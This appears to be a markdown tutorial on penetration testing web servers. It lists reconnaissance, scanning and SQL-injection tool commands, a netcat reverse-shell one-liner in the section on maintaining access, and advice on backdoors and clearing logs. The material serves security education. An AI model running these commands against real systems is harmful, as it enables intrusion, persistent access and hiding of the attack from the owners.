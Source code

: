  Linux Website Hacking Course

This course will guide you through the basics of Linux website hacking, covering various tools and techniques used by ethical hackers and security professionals. By the end of this course, you will have a strong understanding of how to identify and exploit vulnerabilities in web applications.

**Note:** This course is for educational purposes only. Hacking without permission is illegal and unethical. Always obtain proper authorization before conducting any security testing or penetration testing.

## Table of Contents

1. [Introduction to Linux Website Hacking](#introduction)
2. [Setting Up Your Hacking Environment](#environment)
3. [Reconnaissance and Information Gathering](#reconnaissance)
4. [Scanning and Enumeration](#scanning)
5. [Exploitation and Vulnerability Assessment](#exploitation)
6. [Maintaining Access and Covering Tracks](#maintaining)
7. [Conclusion](#conclusion)

<a name="introduction"></a>
## 1. Introduction to Linux Website Hacking

Linux website hacking is the process of finding and exploiting vulnerabilities in web applications running on Linux servers. This course will cover the following topics:

- Setting up your hacking environment
- Reconnaissance and information gathering
- Scanning and enumeration
- Exploitation and vulnerability assessment
- Maintaining access and covering tracks

<a name="environment"></a>
## 2. Setting Up Your Hacking Environment

To get started, you need to set up a hacking environment. We recommend using Kali Linux, a popular Linux distribution designed for penetration testing and ethical hacking. You can download it from the [official Kali Linux website](https://www.kali.org/).

Once you have installed Kali Linux, update the system and install essential tools:

```bash
sudo apt update && sudo apt upgrade
sudo apt install nmap nikto sqlmap metasploit-framework burpsuite
```

<a name="reconnaissance"></a>
## 3. Reconnaissance and Information Gathering

Reconnaissance is the process of collecting information about a target website. This information can be used to identify potential vulnerabilities and plan attacks. Some popular tools for reconnaissance include:

- [whois](https://www.whois.net/): Look up information about a domain.
- [theHarvester](https://github.com/laramies/theHarvester): Gather emails, subdomains, hosts, and more.
- [Google Dorks](https://www.exploit-db.com/google-hacking-database): Use advanced search queries to find sensitive information.

Example: Using theHarvester to gather information about a target website:

```bash
theharvester -d example.com -b google
```

<a name="scanning"></a>
## 4. Scanning and Enumeration

After gathering information about the target, the next step is scanning and enumeration. This involves identifying open ports, running services, and potential vulnerabilities. Some popular tools for scanning and enumeration include:

- [Nmap](https://nmap.org/): Scan open ports and identify running services.
- [Nikto](https://cirt.net/Nikto2): Scan web servers for vulnerabilities and misconfigurations.

Example: Using Nmap to scan a target website:

```bash
nmap -sV -p- example.com
```

Example: Using Nikto to scan a target website:

```bash
nikto -h example.com
```

<a name="exploitation"></a>
## 5. Exploitation and Vulnerability Assessment

Once you have identified potential vulnerabilities, the next step is exploitation. This involves using various tools and techniques to exploit these vulnerabilities and gain unauthorized access. Some popular tools for exploitation include:

- [SQLMap](http://sqlmap.org/): Automate the detection and exploitation of SQL injection vulnerabilities.
- [Metasploit](https://www.metasploit.com/): Exploit known vulnerabilities in web applications and servers.
- [Burp Suite](https://portswigger.net/burp): Intercept and modify HTTP requests to exploit web application vulnerabilities.

Example: Using SQLMap to exploit an SQL injection vulnerability:

```bash
sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs
```

<a name="maintaining"></a>
## 6. Maintaining Access and Covering Tracks

Once you have gained unauthorized access, the next step is to maintain access and cover your tracks. This involves creating backdoors, escalating privileges, and clearing logs. Some popular tools for maintaining access and covering tracks include:

- [Netcat](https://en.wikipedia.org/wiki/Netcat): Create backdoors and remote shells.
- [Privilege Escalation Awesome Scripts (PEAS)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite): Find potential privilege escalation vectors.

Example: Using Netcat to create a reverse shell:

```bash
nc -e /bin/bash 10.0.0.2 1234
```

<a name="conclusion"></a>
## 7. Conclusion

By completing this Linux website hacking course, you should now have a strong understanding of how to identify and exploit vulnerabilities in web applications. Remember to always obtain proper authorization before conducting any security testing or penetration testing, and use your newfound knowledge responsibly.
